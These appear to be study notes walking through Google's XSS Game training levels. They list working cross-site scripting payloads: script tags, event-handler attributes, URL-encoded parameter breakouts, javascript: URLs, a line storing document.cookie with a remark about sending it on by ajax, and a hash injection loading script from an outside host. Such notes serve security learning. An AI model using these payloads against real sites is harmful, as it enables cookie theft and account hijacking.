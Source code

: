 ## General

- Use `alert(document.domain)` instead of `alert(1)` to see exact domain with xss


## With script tag
- Enter search input: <script>alert(123)</script> or %3cscript%3ealert(document.cookie)%3c/script%3e
- <script>localStorage.setItem('Bob', document.cookie)</script>
<!-- Next step would be send ajax request -->


## With tag js attribute
- Post to comments: <b onmouseover="alert('XSS testing!')"></b>


## Location hash is executed from app js script
- https://xss-game.appspot.com/level3/frame#'/><script>alert(1)</script>
                                            ^^^ close image tag and perform script

## Inject to GET param of request

Escape codes: https://www.w3schools.com/tags/ref_urlencode.ASP
'	%27
(	%28
)	%29
;	%3B

- https://xss-game.appspot.com/level4/frame?timer='%2Balert(1)%2B'

<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" /> -----> <img src="/static/loading.gif" onload="startTimer('' + alert(1) + '');">

## JS could be executed with `javascript:` within tag

https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)


/confirm?next=%27%3Balert%281%29%3B%27
              '  ;alert(1);'

setTimeout(function() { window.location = '{{ next }}'; }, 5000);
                                          ^^
setTimeout(function() { window.location = '';alert(1);''; }, 5000);


## JS could be loaded from hash (if there is such logic)

- `https://xss-game.appspot.com/level6/frame#//progsmile.github.io/learn/xss/index.js`

